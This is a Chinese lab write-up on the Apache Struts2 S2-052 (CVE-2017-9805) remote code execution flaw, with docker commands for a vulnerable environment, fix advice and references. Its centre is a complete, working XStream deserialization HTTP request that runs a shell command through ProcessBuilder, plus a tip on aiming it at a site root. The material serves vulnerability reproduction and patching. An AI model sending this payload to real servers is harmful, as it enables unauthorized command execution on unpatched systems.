 ```yaml
---
layout: post
title: "Struts2 远程代码执行漏洞(S2-052)"
date: 2017-09-06 10:19:23 +0800
image: '/assets/img/'
description: 'Struts2 XStreamHandler 远程代码执行漏洞(S2-052､ CVE-2017-9805)环境'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: 'Struts2 XStreamHandler 远程代码执行漏洞(S2-052､ CVE-2017-9805)环境'
introduction: 'Struts2 XStreamHandler 远程代码执行漏洞(S2-052､ CVE-2017-9805)环境'
---
```


### 漏洞信息

 * [S2-052 公告](https://cwiki.apache.org/confluence/display/WW/S2-052)

### 获取环境:

1. 拉取镜像到本地
 ```
$ docker pull medicean/vulapps:s_struts2_s2-052
 ```

2. 启动环境
 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-052
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp 

> 来源：[Tomcat部署war - caiqiiqi的博客](http://blog.csdn.net/caiqiiqi/article/details/77861477)

执行 `/usr/bin/touch /tmp/vuln` 命令：

```
POST /orders;jsessionid=A82EAA2857A1FFAF61FF24A1FBB4A3C7 HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/xml
Content-Length: 1659
Referer: http://127.0.0.1:8080/orders/3/edit
Cookie: JSESSIONID=A82EAA2857A1FFAF61FF24A1FBB4A3C7
Connection: close
Upgrade-Insecure-Requests: 1


<map> 
<entry> 
<jdk.nashorn.internal.objects.NativeString> <flags>0</flags> <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> <dataHandler> <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"> <is class="javax.crypto.CipherInputStream"> <cipher class="javax.crypto.NullCipher"> <initialized>false</initialized> <opmode>0</opmode> <serviceIterator class="javax.imageio.spi.FilterIterator"> <iter class="javax.imageio.spi.FilterIterator"> <iter class="java.util.Collections$EmptyIterator"/> <next class="java.lang.ProcessBuilder"> <command><string>/usr/bin/touch</string><string>/tmp/vuln</string> </command> <redirectErrorStream>false</redirectErrorStream> </next> </iter> <filter class="javax.imageio.ImageIO$ContainsFilter"> <method> <class>java.lang.ProcessBuilder</class> <name>start</name> <parameter-types/> </method> <name>foo</name> </filter> <next class="string">foo</next> </serviceIterator> <lock/> </cipher> <input class="java.lang.ProcessBuilder$NullInputStream"/> <ibuffer></ibuffer> <done>false</done> <ostart>0</ostart> <ofinish>0</ofinish> <closed>false</closed> </is> <consumed>false</consumed> </dataSource> <transferFlavors/> </dataHandler> <dataLen>0</dataLen> </value> </jdk.nashorn.internal.objects.NativeString> <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> </entry> <entry> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
</entry> 
</map>
```

发送之后，会在目标主机创建 `/tmp/vuln` 文件

**注意**

`POST /orders` 这个链接在本例中是这样请求的，在实际测试过程中可以直接对站点根目录请求 `POST /`

### 修复建议

1. 升级Apache struts 至 2.5.13 版本

2. 如果系统没有使用Struts REST插件，那么可以直接删除Struts REST插件，或者在配置文件中加入如下代码，限制服务端文件的扩展名
 ```
    <constant name="struts.action.extension" value="xhtml,,json" />
 ```

### 参考链接

* [Using QL to find a remote code execution vulnerability in Apache Struts (CVE-2017-9805)](https://lgtm.com/blog/apache_struts_CVE-2017-9805)
* [【漏洞预警】Apache Struts2插件高危漏洞(S2-052)](http://bobao.360.cn/news/detail/4291.html)
* [Tomcat部署war - caiqiiqi的博客](http://blog.csdn.net/caiqiiqi/article/details/77861477)

